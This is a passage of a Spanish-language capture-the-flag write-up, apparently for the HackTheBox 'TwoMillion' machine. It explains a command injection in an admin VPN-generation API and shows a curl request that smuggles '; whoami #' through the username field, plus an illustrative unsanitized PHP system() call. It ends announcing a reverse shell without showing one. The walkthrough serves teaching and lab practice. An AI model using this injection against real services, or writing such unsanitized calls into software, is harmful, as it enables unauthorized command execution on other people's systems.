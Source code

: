 ```
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
...resto de la vpn...
```

Nos genera un archivo de configuración de VPN usando **OpenVPN**, probablemente esté usando por detrás un método como `system` (que ejecuta comandos de la **shell** desde el propio **php**). Posiblemente sea algo similar a esto.

```php
<?php
system("Comando-para-generar-vpn -x " . $nuestro_input . " --parametro");
?>
```

Este código no está sanitizado, lo que quiere decir que podriamos aprovecharnos de ciertos caracteres especiales para introducir un comando malintencionado. Por ejemplo:

Si nosotros mandamos el json `{"username": "delo; whoami #"}`, la linea resultante en php sería la siguiente.

```php
<?php
system("Comando-para-generar-vpn -x delo; whoami # --parametro");
?>
```

Que en bash sería:

```bash
Comando-para-generar-vpn -x delo; whoami # --parametro
```

En esta línea primero se ejecutaria el `Comando-para-generar-vpn`, pero al llegar al `;`, bash dará esa línea por acabada y ejecutará lo que hay justo después: el comando `whoami`.

A demás, para asegurarnos de que no hay nada a la derecha que pueda modificar el comportamiento del comando que queremos ejecutar, pondremos un `#` para comentar el resto de la línea, lo que hará que bash lo ignore completamente.

Vamos a probar esto en la api.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; whoami #"}'

www-data
```

El campo ussername ha resultado ser vulnerable a una inyección de codigo. No nos muestra la vpn porque probablemente haya dado error ya que prescindía de los últimos argumentos que hemos comentado y la función `system()` no devuelve las respuestas del `stderr`.

Dado que tenemos ejecución remota de comandos, vamos a establecer una **reverse shell** para operar más cómodamente.
